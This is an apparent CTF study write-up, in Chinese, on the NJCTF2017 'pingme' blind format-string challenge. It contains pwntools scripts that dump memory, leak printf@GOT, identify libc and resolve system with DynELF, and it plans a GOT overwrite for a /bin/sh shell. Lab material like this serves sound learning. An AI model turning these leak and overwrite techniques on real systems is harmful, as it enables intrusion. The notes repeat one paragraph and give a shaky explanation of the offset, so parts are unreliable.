



笔者在学习fmt后，遇到了NJCTF2017 pingme这样一道题，感觉很有意思，是笔者第一次遇到没有下发elf文件的题目，需要从靶机中dump文件下来
notebook
fmt_str
gdb中利用fmtstr xxx查看xxx的偏移量
题目复现
在 6.1.1 中我们看到了 blind ROP，这一节中则将看到 blind fmt。它们的共同点是都没有二进制文件，只提供 ip 和端口。
checksec 如下：
$ checksec -f pingmeRELRO STACK CANARY NX PIE RPATH RUNPATHFORTIFY Fortified Fortifiable FILENo RELRO No canary found NX enabled No PIE No RPATH No RUNPATH No 0 2 pingme
关闭 ASLR，然后把程序运行起来：
$ socat tcp4-listen:10001,reuseaddr,fork exec:./pingme &
Blind fmt 原理及题目解析
格式化字符串漏洞我们已经在 3.3.1 中详细讲过了，blind fmt 要求我们在没有二进制文件和 libc.so 的情况下进行漏洞利用，好在程序没有开启任何保护，利用很直接。
通常有两种方法可以解决这种问题，一种是利用信息泄露把程序从内存中 dump 下来，另一种是使用 pwntools 的 DynELF 模块（关于该模块的使用我们在章节 4.4 中有讲过）。
漏洞利用
确认漏洞
首先你当然不知道这是一个栈溢出还是格式化字符串，栈溢出的话输入一段长字符串，但程序是否崩溃，格式化字符串的话就输入格式字符，看输出。
$ nc 127.0.0.1 10001Ping meABCD%7$xABCD44434241
很明显是格式字符串，而且 ABCD 在第 7 个参数的位置，实际上当然不会这么巧，所以需要使用一个脚本去枚举。这里使用 pwntools 的 fmtstr 模块了：
def exec_fmt(payload): p.sendline(payload) info = p.recv() return infoauto = FmtStr(exec_fmt)offset = auto.offset
[*] Found format string offset: 7
dumpfile
这是一个32位的程序
在没有开启 PIE 的情况下，32 位程序从地址 0x8048000 开始，0x1000 的大小就足够了。在对内存 \x00 进行 leak 时，数据长度为零，直接给它赋值就可以了。
利用fmt将内存中的可执行文件dump下来
def dump_memory(start_addr, end_addr):
result = b"" # 使用字节类型
while start_addr < end_addr:
p = remote('127.0.0.1', 10001)
p.recvline()
#print result.encode('hex')
payload = b"%9$s.AAA" + p32(start_addr)
p.sendline(payload)
data = p.recvuntil(b".AAA")[:-4] # 修改为字节类型
if data == b"": # 修改为字节类型
data = b"\x00"
log.info(f"leaking {start_addr},{data}")
result += data
start_addr += len(data)
p.close()
return result
start_addr = 0x8048000
end_addr = 0x8049000
code_bin = dump_memory(start_addr, end_addr)
with open("code.bin", "wb") as f:
f.write(code_bin)
f.close()
在格式化字符串攻击中，偏移量是用来定位参数在堆栈中的位置的。根据你的描述，ABCD%7$x 表示 ABCD 在第 7 个参数的位置。然而，在你的 dump_memory 函数中，构造的 payload 变成了 "%9$s.AAA" + p32(start_addr)，这意味着你要打印的内容 %9$s 被指定为第 9 个参数。
之所以从 7 改为 9，是因为在新的 payload 中，实际传递给 printf 的参数比原先更多。具体原因如下：
- 基础格式化字符串：
%9$s.AAA中的%9$s是格式化字符串，它指向第 9 个参数。
- 增加的地址参数：
p32(start_addr)是附加到格式化字符串之后的实际地址，这个地址在堆栈中也是一个参数。
当你构造 payload "%9$s.AAA" + p32(start_addr) 时， p32(start_addr) 将地址放在堆栈中一个额外的位置。因此，原来位于第 7 个参数的位置变成了第 9 个参数。
示例分析
假设原来的堆栈情况是这样的：
ABCD- 参数1
- 参数2
- 参数3
- 参数4
- 参数5
- 参数6
%7$s 表示取第 7 个参数。
当你加入 p32(start_addr) 后，堆栈情况变成：
ABCD- 参数1
- 参数2
- 参数3
- 参数4
- 参数5
- 参数6
start_addr# 这是 p32(start_addr) 加入后的新参数位置
现在 start_addr 实际上是第 9 个参数，所以你需要用 %9$s 来引用它。

确认新的偏移
为了确认新的偏移，我们使用了 FmtStr(exec_fmt) 来自动探测新的偏移量，并发现偏移量是 9。这一步是关键，因为不同的程序可能由于参数传递的变化，导致偏移量有所不同。
拿到libc
利用printf的got泄露
def get_printf_addr():
p.recvline()
gdb.attach(p)
payload = b"%9$s.AAA" + p32(printf_got)
p.sendline(payload)
data = u32(p.recvuntil(".AAA")[:4])
log.info("printf address: 0x%x" % data)
return data
get_printf_addr()
$ ./find printf 670
ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)
/usr/lib32/libc-2.26.so (id local-292a64d65098446389a47cdacdf5781255a95098)
$ ./dump local-292a64d65098446389a47cdacdf5781255a95098 printf system
offset_printf = 0x00051670
offset_system = 0x0003cc50

然后弄system,可以看到，我们成功的泄露了printf的函数地址，然后我们利用这个libc-database中搜libc，拿到libc，就可以算出libc-base-addr然后拿到system
然后弄system,可以看到，我们成功的泄露了printf的函数地址，然后我们利用这个libc-database中搜libc，拿到libc，就可以算出libc-base-addr然后拿到system
zephyr@zephyr-virtual-machine:/mnt/hgfs/CTF/train/pwn/CTF-All-In-One-master/src/writeup/6.1.2_pwn_njctf2017_pingme/libc-database$ ./find printf a90
ubuntu-glibc (libc6-amd64_2.31-0ubuntu9.15_i386)
DynELF
在《CTF权威指南中·Pwn篇》中记载了DynElf的做法
首先找到程序的入口地址

如图是 0x8048490
def leak(addr):
p = remote('127.0.0.1', '10001')
payload = b"%9$s.AAA" + p32(addr)
p.sendlineafter(b"Ping me\n",payload)
data = p.recvuntil(".AAA")[:-4] + b"\x00"
log.info("leaking: 0x%x --> %s" % (addr, data.hex()))
p.close()
return data
data = DynELF(leak, 0x08048490) # Entry point address
system_addr = data.lookup('system', 'libc')
printf_addr = data.lookup('printf', 'libc')
log.info("system address: 0x%x" % system_addr)
log.info("printf address: 0x%x" % printf_addr)
attack
将system的地址写到printf@got中，然后送 /bin/sh 这样就相当于执行了 system("/bin/sh"
利用 fmtstr_payload 构造payload